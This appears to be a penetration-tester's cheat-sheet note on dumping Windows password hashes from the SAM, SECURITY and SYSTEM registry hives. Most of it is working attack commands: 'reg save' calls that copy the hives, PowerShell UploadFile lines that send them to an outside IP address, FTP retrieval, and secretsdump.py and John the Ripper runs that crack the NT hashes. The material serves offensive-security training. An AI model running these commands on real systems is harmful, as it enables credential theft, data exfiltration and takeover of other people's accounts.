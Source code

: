 # SAM / SYSTEM / SECURITY

The Windows passwords are stored encrypted in the SAM file \(`C:Windows\System32\config\`\). The SYSTEM file is in the same folder and contains the bootkey to decrypt it.

These two files are locked by the kernel when the operating system is up, so to access the passwords there are a few options:

* mount the disk when the system is down
* use tools to dump the hashes in memory
* get the twin files backed up for recovery at `C:\Windows\Repair`. 

## Dump hashes from memory

```text
reg save hklm\sam sam.save
reg save hklm\security security.save
reg save hklm\system system.save
```

```text
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.189/upload.php','sam.save')
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.189/upload.php','security.save')
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.189/upload.php','system.save')
```

```text
$ ftp $TARGET
ftp> bin
200 Type set to I.

ftp> get sam.save
ftp> get security.save
ftp> get system.save
```

```text
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL > dump.hash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt dump.hash --format=NT
sudo john --show --format=NT dump.hash
```



